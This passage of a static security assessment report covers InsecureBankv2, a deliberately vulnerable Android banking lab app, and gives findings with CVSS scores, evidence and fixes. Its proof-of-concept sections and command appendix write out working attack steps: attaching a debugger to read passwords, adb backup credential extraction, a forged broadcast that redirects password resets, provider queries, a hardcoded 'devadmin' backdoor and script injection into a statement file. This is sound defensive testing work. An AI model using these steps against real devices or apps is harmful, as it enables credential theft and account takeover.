| **CWE** | CWE-215 — Insertion of Sensitive Information Into Debugging Code |
| **OWASP Mobile** | M8 — Security Misconfiguration |
| **Location** | `AndroidManifest.xml` — `<application>` tag, line 15 |

#### Description

The application manifest sets `android:debuggable="true"`, allowing any ADB-connected host to attach a Java Debug Wire Protocol (JDWP) debugger to the running process. This enables full runtime inspection without device root: memory dumps, live variable reads, breakpoints on any method, and arbitrary code injection into the banking process.

#### Evidence

```bash
$ grep -n "debuggable" Decompiled/AndroidManifest.xml
15:        android:debuggable="true"
```


*Figure 27_debuggable: Terminal output of `grep -n "debuggable"` and `grep -n "allowBackup"` showing both `android:debuggable="true"` and `android:allowBackup="true"` on the application tag at line 15.*

#### Steps to Reproduce

1. Connect a test device via USB with ADB enabled.
2. Install the APK and launch the application.
3. Run `adb jdwp` to confirm the process appears as a debuggable process.
4. Forward the JDWP port and attach a Java debugger:
   ```bash
   adb forward tcp:7777 jdwp:<pid>
   jdb -attach localhost:7777
   ```
5. Set a breakpoint in `DoLogin.onPostExecute` and observe plaintext credentials in memory.

#### Proof of Concept

```bash
# List debuggable processes
adb jdwp

# Attach Java debugger
adb forward tcp:7777 jdwp:<pid>
jdb -attach localhost:7777

# Read decrypted password from live process memory
stop in com.android.insecurebankv2.DoLogin.onPostExecute
print DoLogin.this.password    # → plaintext credential
```

**Impact:** Runtime memory inspection, live credential extraction, and arbitrary code injection into the banking process without requiring device root.

#### Recommendation

```groovy
// build.gradle — never manually set debuggable in manifest
android {
    buildTypes {
        release {
            debuggable false     // explicit — Gradle manages this per build type
            minifyEnabled true
            shrinkResources true
            proguardFiles getDefaultProguardFile('proguard-android-optimize.txt'),
                          'proguard-rules.pro'
        }
        debug {
            debuggable true
            applicationIdSuffix ".debug"
        }
    }
}
```

- Remove `android:debuggable="true"` from `AndroidManifest.xml` entirely
- Let Gradle manage the `debuggable` flag via build type configuration
- Never release a debuggable build to end users or app stores

---

### STATIC-007 — android:allowBackup="true" Enables ADB Extraction

| Field | Details |
|-------|---------|
| **Severity** | 🟠 High |
| **CVSS v3.1** | 6.8 (AV:P/AC:L/PR:N/UI:N/S:U/C:H/I:H/A:N) |
| **CWE** | CWE-530 — Exposure of Backup File to Unauthorized Control Sphere |
| **OWASP Mobile** | M9 — Insecure Data Storage |
| **Location** | `AndroidManifest.xml` — `<application>` tag |

#### Description

The application sets `android:allowBackup="true"`, permitting ADB-based full backup of the application's private data directory. Combined with credential storage in SharedPreferences (STATIC-003), a complete credential extraction is achievable via USB without root access, screen unlock in certain scenarios, or any special device state.

#### Evidence

```bash
$ grep -n "allowBackup" Decompiled/AndroidManifest.xml
15:        android:allowBackup="true"
```

*(See Figure  27_debuggable — both `debuggable` and `allowBackup` are visible in the same grep output.)*

#### Steps to Reproduce

1. Connect a test device via USB with ADB enabled.
2. Run the backup command:
   ```bash
   adb backup -noapk com.android.insecurebankv2
   ```
3. Accept the backup on the device (or use automation for unattended extraction).
4. Unpack the backup and inspect the SharedPreferences file.

#### Proof of Concept

```bash
# Extract full app data — no root required
adb backup -noapk com.android.insecurebankv2

# Unpack archive
java -jar abe.jar unpack backup.ab backup.tar
tar -xvf backup.tar

# Read credentials from SharedPreferences XML
cat apps/com.android.insecurebankv2/sp/*.xml
# → superSecurePassword and EncryptedUsername values extracted
# → Decrypt with STATIC-002 PoC → plaintext credentials
```

**Impact:** Physical access plus a USB cable is sufficient to extract all stored credentials — no root access, screen bypass, or specialist tools required beyond ADB.

#### Recommendation

```xml
<!-- AndroidManifest.xml — disable backup -->
<application android:allowBackup="false" ...>

<!-- If selective cloud backup is required (API 31+): -->
<application
    android:allowBackup="true"
    android:dataExtractionRules="@xml/data_extraction_rules" ...>
```

```xml
<!-- res/xml/data_extraction_rules.xml -->
<data-extraction-rules>
    <cloud-backup>
        <exclude domain="sharedpref" path="."/>
        <exclude domain="database"   path="."/>
        <exclude domain="file"       path="."/>
    </cloud-backup>
    <device-transfer>
        <exclude domain="sharedpref" path="."/>
    </device-transfer>
</data-extraction-rules>
```

- Set `android:allowBackup="false"` in production builds
- If backup is required, use Android Auto Backup with explicit exclusion rules for all credential and session data

---

### STATIC-008 — Exported BroadcastReceiver Without Permission

| Field | Details |
|-------|---------|
| **Severity** | 🟠 High |
| **CVSS v3.1** | 7.5 (AV:N/AC:L/PR:N/UI:N/S:U/C:N/I:H/A:N) |
| **CWE** | CWE-926 — Improper Export of Android Application Components |
| **OWASP Mobile** | M1 — Improper Credential Usage |
| **Location** | `AndroidManifest.xml` — `MyBroadCastReceiver` |

#### Description

`MyBroadCastReceiver` is declared with `android:exported="true"` and no `android:permission` attribute. The receiver processes intent extras including a target phone number and a new password, then initiates an SMS-based password change on behalf of the user. Any installed application or ADB command can send a broadcast to this receiver with attacker-controlled values, redirecting the password-change SMS to a phone number the attacker controls.

#### Evidence

```xml
<!-- AndroidManifest.xml -->
<receiver
    android:name=".MyBroadCastReceiver"
    android:exported="true"/>
<!-- No android:permission attribute -->
```


*Figure 06_receiver: `grep -n "receiver"` output showing `MyBroadCastReceiver` with `android:exported="true"` and the clear absence of any `android:permission` attribute on the declaration.*

#### Steps to Reproduce

1. Connect a test device via USB with the app installed.
2. Send an arbitrary broadcast to the receiver:
   ```bash
   adb shell am broadcast \
     -a theBroadcast \
     -n com.android.insecurebankv2/.MyBroadCastReceiver \
     --es phonenumber "+911234567890" \
     --es newpass "hacked123"
   ```
3. Observe a password-change SMS sent to the attacker-controlled number from the victim's device.

#### Proof of Concept

```bash
adb shell am broadcast \
  -a theBroadcast \
  -n com.android.insecurebankv2/.MyBroadCastReceiver \
  --es phonenumber "+911234567890" \
  --es newpass "hacked123"

# Result: password-change SMS sent to attacker's number
# Legitimate user is locked out of their own account
```

**Impact:** Account takeover — the attacker redirects the password-change SMS to a phone number they control, locking the legitimate user out of their account.

#### Recommendation

```xml
<!-- AndroidManifest.xml -->
<receiver
    android:name=".MyBroadCastReceiver"
    android:exported="false"/>

<!-- If external broadcast trigger is required: -->
<permission
    android:name="com.android.insecurebankv2.BROADCAST_PERM"
    android:protectionLevel="signature"/>
<receiver
    android:name=".MyBroadCastReceiver"
    android:exported="true"
    android:permission="com.android.insecurebankv2.BROADCAST_PERM"/>
```

- Set `android:exported="false"` unless external access is strictly required
- Never accept a target phone number from an external intent for security-sensitive operations
- Validate all intent extra values against the authenticated user's registered details

---

### STATIC-009 — Exported ContentProvider Without Permission

| Field | Details |
|-------|---------|
| **Severity** | 🟠 High |
| **CVSS v3.1** | 7.5 (AV:N/AC:L/PR:N/UI:N/S:U/C:H/I:N/A:N) |
| **CWE** | CWE-284 — Improper Access Control |
| **OWASP Mobile** | M6 — Inadequate Privacy Controls |
| **Location** | `AndroidManifest.xml` — `TrackUserContentProvider` |

#### Description

`TrackUserContentProvider` is declared with `android:exported="true"` and no `android:readPermission` or `android:writePermission`. Any installed application or ADB command can query this provider and retrieve all stored user tracking data without any access control.

#### Evidence

```xml
<!-- AndroidManifest.xml -->
<provider
    android:name=".TrackUserContentProvider"
    android:authorities="com.android.insecurebankv2.TrackUserContentProvider"
    android:exported="true"/>
<!-- No readPermission or writePermission -->
```


*Figure 07_provider: `grep -n "provider"` output showing `TrackUserContentProvider` with `android:exported="true"` and the absence of `android:readPermission` and `android:writePermission` attributes.*

#### Steps to Reproduce

1. With the app installed on a test device, run:
   ```bash
   adb shell content query \
     --uri content://com.android.insecurebankv2.TrackUserContentProvider/
   ```
2. Observe all stored user tracking records returned in plaintext with no authentication.

#### Proof of Concept

```bash
adb shell content query \
  --uri content://com.android.insecurebankv2.TrackUserContentProvider/

# All stored user tracking data returned — no permission required
```

**Impact:** Full disclosure of all user tracking data to any co-installed application or USB-connected attacker with no access control.

#### Recommendation

```xml
<!-- AndroidManifest.xml -->
<permission
    android:name="com.android.insecurebankv2.PROVIDER_READ"
    android:protectionLevel="signature"/>
<permission
    android:name="com.android.insecurebankv2.PROVIDER_WRITE"
    android:protectionLevel="signature"/>

<provider
    android:name=".TrackUserContentProvider"
    android:authorities="com.android.insecurebankv2.TrackUserContentProvider"
    android:exported="false"
    android:readPermission="com.android.insecurebankv2.PROVIDER_READ"
    android:writePermission="com.android.insecurebankv2.PROVIDER_WRITE"/>
```

- If the provider does not need to be accessed by any other application, set `exported="false"` and remove permissions entirely
- Consider replacing the ContentProvider with a Repository pattern for internal-only data access

---

### STATIC-010 — Hardcoded Backdoor Username

| Field | Details |
|-------|---------|
| **Severity** | 🟠 High |
| **CVSS v3.1** | 7.3 (AV:N/AC:L/PR:N/UI:N/S:U/C:H/I:L/A:N) |
| **CWE** | CWE-798 — Use of Hard-coded Credentials |
| **OWASP Mobile** | M3 — Insecure Authentication |
| **Location** | `com.android.insecurebankv2.DoLogin` |

#### Description

The application's login logic contains a hardcoded string comparison that grants privileged application behaviour to the username `"devadmin"`. This is a classic developer backdoor left in the production binary. The username is discoverable in under two minutes by any person who decompiles the APK.

#### Evidence

```java
// DoLogin.java
if (DoLogin.this.username.equals("devadmin")) {
    // privileged code path — bypasses standard authentication checks
}
```


*Figure 10_admin: jadx-gui showing `DoLogin.java` with the line `if (DoLogin.this.username.equals("devadmin"))` visible and highlighted inside the authentication logic. The class name `DoLogin` is visible in the file tree.*

#### Steps to Reproduce

1. Decompile the APK with jadx-gui.
2. Search for `devadmin` — observe the conditional in `DoLogin.java`.
3. On a test device, enter `devadmin` as the username in the login screen.
4. Observe that the privileged code path is triggered.

#### Proof of Concept

```
# Enter "devadmin" as the username at the login screen
# No special password knowledge required
# Privileged path triggered immediately
# Discoverable by any attacker via APK decompile in < 2 minutes
```

**Impact:** Unauthorized privileged access to application functionality for any attacker who decompiles the APK.

#### Recommendation

```kotlin
// DoLogin.kt — remove the hardcoded conditional entirely
// BEFORE:
// if (DoLogin.this.username.equals("devadmin")) { ... }

// AFTER — all authentication and role management is server-side only:
suspend fun authenticate(username: String, password: String): AuthResult {
    val response = apiService.login(LoginRequest(username, password))
    return when {
        response.isSuccessful -> AuthResult.Success(response.body()!!.token)
        response.code() == 401 -> AuthResult.InvalidCredentials
        else -> AuthResult.NetworkError(response.code())
    }
}
```

- Remove all hardcoded username checks from application source code
- Implement role-based access control entirely server-side
- Never embed privileged account names, test accounts, or special-case logic in production binaries

---

### STATIC-011 — WebViewClient: No URL Validation or SSL Error Handling

| Field | Details |
|-------|---------|
| **Severity** | 🟡 Medium |
| **CVSS v3.1** | 5.9 (AV:N/AC:H/PR:N/UI:N/S:U/C:H/I:N/A:N) |
| **CWE** | CWE-297 — Improper Validation of Certificate with Host Mismatch |
| **OWASP Mobile** | M5 — Insecure Communication |
| **Location** | `com.android.insecurebankv2.MyWebViewClient` |

#### Description

The custom `WebViewClient` passes every URL directly to `loadUrl()` with no allowlist or scheme validation. No `onReceivedSslError` override is present, meaning SSL certificate errors may be silently accepted by the system default handler — enabling MITM attacks against WebView-loaded content without any visible warning to the user.

#### Evidence

```java
// MyWebViewClient.java
public boolean shouldOverrideUrlLoading(WebView view, String url) {
    view.loadUrl(url);    // ← no scheme, host, or path validation
    return true;
}
// No onReceivedSslError override found in application code
```


*Figure 26_loadurl: jadx-gui showing `MyWebViewClient.java` with `shouldOverrideUrlLoading` containing `view.loadUrl(url)` and no surrounding URL validation logic. A separate search confirming `onReceivedSslError` returns no results in InsecureBankv2 app code.*

#### Steps to Reproduce

1. Decompile the APK and open `MyWebViewClient.java`.
2. Observe `view.loadUrl(url)` in `shouldOverrideUrlLoading` with no validation.
3. Search for `onReceivedSslError` — confirm no override exists in app code.
4. On a test network, perform a MITM and present an invalid SSL certificate.
5. Observe that the WebView may proceed without warning.

#### Proof of Concept

A malicious redirect or injected navigation event could cause the WebView to load an attacker-controlled URL or a `file://` path, enabling cross-origin data access or credential harvesting.

**Impact:** Unvalidated URL loading and absent SSL error handling create a pathway for MITM attacks and malicious URL injection into the WebView.

#### Recommendation

```kotlin
class MyWebViewClient : WebViewClient() {
    private val ALLOWED_HOSTS = setOf("api.yourbank.example.com")

    override fun shouldOverrideUrlLoading(
        view: WebView, request: WebResourceRequest
    ): Boolean {
        val uri = request.url
        // Only allow HTTPS to known hosts
        if (uri.scheme == "https" && uri.host in ALLOWED_HOSTS) {
            return false  // allow WebView to load
        }
        return true       // block all other URLs
    }

    override fun onReceivedSslError(
        view: WebView, handler: SslErrorHandler, error: SslError
    ) {
        handler.cancel()  // ALWAYS cancel — never call handler.proceed()
        view.loadData(
            "<h3>Secure connection failed. Please try again.</h3>",
            "text/html", "utf-8"
        )
    }
}
```

- Implement a strict URL allowlist in `shouldOverrideUrlLoading`
- Always override `onReceivedSslError` and always call `handler.cancel()`
- Never call `handler.proceed()` — this silently accepts invalid certificates

---

### STATIC-012 — Excessive and Unjustified Permissions

| Field | Details |
|-------|---------|
| **Severity** | 🟢 Informational |
| **CVSS v3.1** | N/A |
| **CWE** | CWE-250 — Execution with Unnecessary Privileges |
| **OWASP Mobile** | M8 — Security Misconfiguration |
| **Location** | `AndroidManifest.xml` — `<uses-permission>` declarations |

#### Description

The application declares 12 permissions. After verification against demonstrated application functionality, 7 permissions have no identifiable use in the application's own code and are unjustified for a banking application.

| Permission | Justified | Reason |
|------------|-----------|--------|
| `INTERNET` | ✅ Yes | Required for all network calls |
| `ACCESS_NETWORK_STATE` | ✅ Yes | Connectivity checks |
| `SEND_SMS` | ✅ Yes | SMS-based password change (MyBroadCastReceiver) |
| `WRITE_EXTERNAL_STORAGE` | ⚠️ Partial | Used for statement files — but external storage use is itself a vulnerability (STATIC-005) |
| `READ_EXTERNAL_STORAGE` | ⚠️ Partial | Used to read statement files — same issue |
| `READ_CALL_LOG` | ❌ No | No demonstrated use in application code |
| `READ_CONTACTS` | ❌ No | No demonstrated use |
| `USE_CREDENTIALS` | ❌ No | Deprecated — no demonstrated use |
| `GET_ACCOUNTS` | ❌ No | No demonstrated use |
| `READ_PROFILE` | ❌ No | Deprecated — no demonstrated use |
| `READ_PHONE_STATE` | ❌ No | No demonstrated use |
| `ACCESS_COARSE_LOCATION` | ❌ No | No demonstrated use |


*Figure 04_permissions: `grep "uses-permission"` output listing all 12 declared permissions. The 7 unjustified permissions (READ_CALL_LOG, READ_CONTACTS, USE_CREDENTIALS, GET_ACCOUNTS, READ_PROFILE, READ_PHONE_STATE, ACCESS_COARSE_LOCATION) are annotated.*

#### Recommendation

- Remove all 7 unjustified permissions immediately
- Request remaining dangerous permissions at runtime at the point of use, not at app launch
- Conduct a permission audit before every release using the principle of least privilege
- The STORAGE permissions become unnecessary once finding STATIC-005 is remediated (statements served from internal storage)

---

## 5. False Positives — Excluded Findings

The following candidate findings were investigated and excluded after verification confirmed they were either GMS library code, duplicate findings, or misidentified artifacts.

| Original ID | Original Description | Reason for Exclusion |
|-------------|---------------------|----------------------|
| Password references | `superSecurePassword` in source | SharedPreferences **key name** — not a hardcoded credential value. Storage risk fully covered by STATIC-003. |
| Username references | `EncryptedUsername` in source | SharedPreferences **key name** — not a hardcoded credential value. |
| URL endpoint references | 50+ URL results in jadx | Runtime-constructed from user-configured server IP in `FilePrefActivity` — not hardcoded production endpoints. |
| HTTPS endpoints (4.7) | 36 `https://` results | **All 36 confirmed as GMS library code** — zero results from InsecureBankv2 application code. |
| Token references | 50+ token results | **All confirmed as GMS auth token infrastructure** — not InsecureBankv2 code. |
| AES/CBC/PKCS5Padding (5.1) | Cipher.getInstance finding | **Duplicate of STATIC-002** — same broken AES implementation, same root cause. |
| SecretKeySpec (5.5) | SecretKeySpec hardcoded key | **Duplicate of STATIC-002** — the constructor call instantiating the same hardcoded key. Not an independent finding. |
| Secret key 2nd confirmation (5.7) | Second jadx search result | **Exact duplicate of STATIC-002** — same line, same class. |
| MD5 usage (5.4) | MessageDigest.getInstance("MD5") | **Confirmed GMS internal library code only** — analyst's own notes stated all 7 results are in GMS classes. Not InsecureBankv2 code. |
| addJavascriptInterface (6.5) | JS bridge finding | **Confirmed GMS Ads SDK** — class name `zzih`, interface name `googleAdsJsInterface`. ProGuard-obfuscated GMS internal code. |
| SHA-1 usage (5.6) | SHA1withRSA | **Cited instances are GMS library code only** — no SHA-1 usage found in InsecureBankv2 application classes. |
| HTTP configurable endpoints | HTTP on FilePrefActivity | Lab/dev context — server IP is user-configured for testing. External-facing HTTP fully covered by STATIC-004. |
| JavaScript in WebView (standalone) | setJavaScriptEnabled | Component of STATIC-005 attack chain — not independently scored to avoid double-counting. |

---

## 6. Summary of Findings

| ID | Finding | Severity | CVSS | CWE | OWASP |
|----|---------|----------|------|-----|-------|
| STATIC-001 | Exported activities — authentication bypass | 🔴 Critical | 9.8 | CWE-926 | M1, M3 |
| STATIC-002 | Hardcoded AES encryption key | 🔴 Critical | 9.1 | CWE-321 | M10 |
| STATIC-003 | Credentials stored in SharedPreferences | 🔴 Critical | 8.8 | CWE-312 | M9 |
| STATIC-004 | All network traffic over plaintext HTTP | 🔴 Critical | 9.1 | CWE-319 | M5 |
| STATIC-005 | WebView file:// injection from external storage | 🔴 Critical | 8.8 | CWE-73 | M6 |
| STATIC-006 | android:debuggable="true" in production | 🟠 High | 7.7 | CWE-215 | M8 |
| STATIC-007 | android:allowBackup="true" — ADB extraction | 🟠 High | 6.8 | CWE-530 | M9 |
| STATIC-008 | Exported BroadcastReceiver without permission | 🟠 High | 7.5 | CWE-926 | M1 |
| STATIC-009 | Exported ContentProvider without permission | 🟠 High | 7.5 | CWE-284 | M6 |
| STATIC-010 | Hardcoded backdoor username "devadmin" | 🟠 High | 7.3 | CWE-798 | M3 |
| STATIC-011 | WebViewClient — no URL validation / SSL handling | 🟡 Medium | 5.9 | CWE-297 | M5 |
| STATIC-012 | Excessive and unjustified permissions | 🟢 Info | N/A | CWE-250 | M8 |

### Severity Breakdown

| Severity | Count |
|----------|-------|
| 🔴 Critical | 5 |
| 🟠 High | 5 |
| 🟡 Medium | 1 |
| 🟢 Informational | 1 |
| **Total** | **12** |

---

## 7. Remediation Prioritization

### Immediate — Resolve Before Any Distribution

| Priority | ID | Finding | Effort |
|----------|----|---------|--------|
| P1 | STATIC-004 | Enforce HTTPS + certificate pinning | Medium |
| P2 | STATIC-002 | Migrate to Android Keystore + AES-GCM | Medium |
| P3 | STATIC-003 | Use EncryptedSharedPreferences + remove logcat | Low |
| P4 | STATIC-001 | Set exported=false on all sensitive activities | Low |
| P5 | STATIC-005 | Internal storage for statements + disable JS/file:// | Low |

### Short Term — Resolve Within Current Sprint

| Priority | ID | Finding | Effort |
|----------|----|---------|--------|
| P6 | STATIC-006 | Remove debuggable flag from release build | Very Low |
| P7 | STATIC-007 | Set allowBackup=false | Very Low |
| P8 | STATIC-010 | Remove devadmin backdoor | Very Low |
| P9 | STATIC-008 | Set BroadcastReceiver exported=false | Very Low |
| P10 | STATIC-009 | Set ContentProvider exported=false | Very Low |

### Medium Term

| Priority | ID | Finding | Effort |
|----------|----|---------|--------|
| P11 | STATIC-011 | URL allowlist + SSL error handler | Low |
| P12 | STATIC-012 | Remove 7 unjustified permissions | Very Low |

### Secure Development Practices — Ongoing

- Never embed credentials, keys, or privileged account names in source code
- All network communication must use TLS 1.2+ with certificate validation and pinning
- Use Android Keystore for all cryptographic key management
- Apply principle of least privilege to all manifest components and permissions
- Strip all debug logging of sensitive data before release builds using ProGuard
- Integrate automated static analysis (MobSF, semgrep mobile ruleset) into CI/CD pipeline
- Conduct a security review checkpoint before every public release

---

## 8. Appendix

### A. Screenshot Index

| File | Finding | What to Capture |
|------|---------|-----------------|
| `screenshots/01_apk_download.png` | Setup | Terminal showing `ls -lh InsecureBankv2.apk` (3.4 MB) and `file InsecureBankv2.apk` confirming valid Android APK |
| `screenshots/02_apk_verify.png` | Setup | `file` command output: `InsecureBankv2.apk: Android package (APK), with AndroidManifest.xml` |
| `screenshots/03_decompile.png` | Setup | apktool decompilation log + jadx-gui startup showing `Loaded classes: 6529, methods: 40188` |
| `screenshots/04_permissions.png` | STATIC-012 | `grep "uses-permission"` output listing all 12 declared permissions |
| `screenshots/05_activities.png` | STATIC-001 | `grep -n "activity"` showing PostLogin, DoTransfer, ViewStatement, ChangePassword with `exported="true"` and no `android:permission` |
| `screenshots/06_receiver.png` | STATIC-008 | `grep -n "receiver"` showing `MyBroadCastReceiver` with `exported="true"` and no `android:permission` attribute |
| `screenshots/07_provider.png` | STATIC-009 | `grep -n "provider"` showing `TrackUserContentProvider` with `exported="true"` and no `readPermission` or `writePermission` |
| `screenshots/08_password.png` | STATIC-003 | jadx search showing `settings.getString("superSecurePassword")` in LoginActivity and `System.out.println` of password in DoLogin |
| `screenshots/10_admin.png` | STATIC-010 | jadx showing `username.equals("devadmin")` conditional inside DoLogin authentication logic |
| `screenshots/11_secret.png` | STATIC-002 | jadx showing `String key = "This is the super Secret key 123"` in CryptoClass plaintext source |
| `screenshots/13_http.png` | STATIC-004 | jadx showing `String protocol = "http://"` in DoLogin, DoTransfer, and ChangePassword |
| `screenshots/14_https.png` | STATIC-004 | jadx `https://` search showing all 36 results from GMS library classes — zero from InsecureBankv2 code |
| `screenshots/25_file_uri.png` | STATIC-005 | jadx showing `setJavaScriptEnabled(true)` and `loadUrl("file://" + externalStorage + ...)` in ViewStatement |
| `screenshots/26_loadurl.png` | STATIC-011 | jadx showing `view.loadUrl(url)` with no URL validation in `MyWebViewClient.shouldOverrideUrlLoading` |
| `screenshots/27_debuggable.png` | STATIC-006/007 | `grep -n "debuggable"` and `grep -n "allowBackup"` showing both flags set to `true` on the application tag |
### B. All Commands Used

```bash
# ── Acquisition & Verification ───────────────────────────────────────────────
cd ~/Downloads
ls -lh InsecureBankv2.apk
file InsecureBankv2.apk
mkdir ~/InsecureBankv2_Static && cd ~/InsecureBankv2_Static
cp ~/Downloads/InsecureBankv2.apk .

# ── Decompilation ────────────────────────────────────────────────────────────
apktool d InsecureBankv2.apk -o Decompiled
ls Decompiled
jadx-gui InsecureBankv2.apk &

# ── Manifest Analysis ────────────────────────────────────────────────────────
grep "uses-permission"  Decompiled/AndroidManifest.xml
grep -n "activity"      Decompiled/AndroidManifest.xml
grep -n "receiver"      Decompiled/AndroidManifest.xml
grep -n "provider"      Decompiled/AndroidManifest.xml
grep -n "allowBackup"   Decompiled/AndroidManifest.xml
grep -n "debuggable"    Decompiled/AndroidManifest.xml

# ── jadx-gui Text Searches Performed ────────────────────────────────────────
# secret | superSecurePassword | EncryptedUsername | devadmin
# http:// | https:// | token | URL
# Cipher.getInstance | AES | SecretKeySpec
# WebView | setJavaScriptEnabled | file:// | loadUrl | addJavascriptInterface
# System.out.println | Log.d | MD5 | SHA1

# ── PoC Commands ─────────────────────────────────────────────────────────────
# STATIC-001 — Auth bypass
adb shell am start -n com.android.insecurebankv2/.PostLogin
adb shell am start -n com.android.insecurebankv2/.DoTransfer
adb shell am start -n com.android.insecurebankv2/.ViewStatement --es uname admin
adb shell am start -n com.android.insecurebankv2/.ChangePassword

# STATIC-003 — ADB backup extraction
adb backup -noapk com.android.insecurebankv2
java -jar abe.jar unpack backup.ab backup.tar
tar -xvf backup.tar
cat apps/com.android.insecurebankv2/sp/*.xml

# STATIC-005 — WebView file injection
adb shell "echo '<script>alert(1)</script>' > /sdcard/Statements_admin.html"
adb shell am start -n com.android.insecurebankv2/.ViewStatement --es uname admin

# STATIC-008 — BroadcastReceiver abuse
adb shell am broadcast \
  -a theBroadcast \
  -n com.android.insecurebankv2/.MyBroadCastReceiver \
  --es phonenumber "+911234567890" --es newpass "hacked123"

# STATIC-009 — ContentProvider query
adb shell content query \
  --uri content://com.android.insecurebankv2.TrackUserContentProvider/

# STATIC-006 — Debugger attach
adb jdwp
adb forward tcp:7777 jdwp:<pid>
jdb -attach localhost:7777
```

### C. Tool Versions

| Tool | Version | Reference |
|------|---------|-----------|
| apktool | 2.7.0-dirty | https://apktool.org |
| jadx | 1.5.1 | https://github.com/skylot/jadx |
| adb | 1.0.41 | Android SDK Platform Tools |
| Python | 3.10.x | System |
| pycryptodome | 3.18.x | `pip install pycryptodome` |
